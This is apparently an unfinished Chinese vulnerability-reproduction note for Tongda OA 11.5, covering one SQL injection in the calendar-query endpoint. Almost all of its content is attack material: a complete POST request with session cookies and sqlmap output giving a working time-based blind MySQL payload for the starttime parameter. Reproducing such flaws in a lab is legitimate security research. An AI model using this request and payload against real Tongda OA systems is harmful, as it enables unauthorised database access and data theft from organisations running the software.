

# 通达OA11.5漏洞复现
` @Time : 2020年8月24日, 0024 10:30`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

```
开始编写
```
[原文链接](https://mp.weixin.qq.com/s/3bI7v-hv4rMUnCIT0GLkJA)

### 1.SQL注入1

> 在【日程管理】->【查询日程】位置


```angular2html
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
Host: 192.168.184.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.184.139/general//calendarArrange/calendarArrange.php
Content-Length: 69
Cookie: PHPSESSID=a94j8pel3r8b1idtmd50ro8760; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=62b732f8; _csrf=5385866953c7f651f3e333549e332c8a3681787c5e27714e207628997c560ef3a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22XaoEpsYBGEQCHrj8aTAiwqICdEDQBP1U%22%3B%7D
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

view=month&starttime=1595779200&endtime=1599408000&callback=undefined
```
```angular2html
sqlmap identified the following injection point(s) with a total of 172 HTTP(s) requests:
---
Parameter: starttime (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=month&starttime=1595779200') AND (SELECT 9275 FROM (SELECT(SLEEP(5)))UPQR) AND ('MHNP'='MHNP&endtime=1599408000&callback=undefined
---

```


> 乾坤未定,你我皆是黑马